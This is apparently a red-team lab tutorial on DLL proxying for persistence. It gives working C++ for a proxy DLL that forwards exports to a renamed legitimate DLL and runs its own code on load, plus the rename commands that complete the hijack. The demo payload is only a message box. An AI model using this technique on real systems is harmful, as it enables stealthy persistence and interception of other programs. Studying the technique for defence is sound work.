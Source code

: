 ```yaml
---
layout: post
title: "2024-06-18-dll proxying for persistence"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dll-proxying-for-persistence/
---
```


# DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:

![](<../../.gitbook/assets/image (654).png>)

## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll (this is the DLL we are hijacking) to legit1.dll (this is still the same DLL we are hijacking, just with a new name)&#x20;
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:

{% tabs %}
{% tab title="legit-dll.cpp" %}
```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```
{% endtab %}
{% endtabs %}

Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:

<div align="center">

<img src="../../.gitbook/assets/image (638).png" alt="">

</div>

To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```
rundll32 c:\temp\legit.dll,exportedFunction1
```

![](<../../.gitbook/assets/image (639).png>)

We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:

{% tabs %}
{% tab title="malicious-dll.cpp" %}
```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward (technical name is `Forward Export`) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:

![](<../../.gitbook/assets/image (645).png>)

Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```
rundll32 malicious.dll,whatever
```

![](<../../.gitbook/assets/image (643).png>)

### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept.&#x20;

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:

![](<../../.gitbook/assets/image (644).png>)

Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```

![](../../.gitbook/assets/rename-files.gif)

### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:

![Successful DLL proxying in action](../../.gitbook/assets/dll-proxying-forwarding-in-action.gif)

Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf)
@spotheplanet
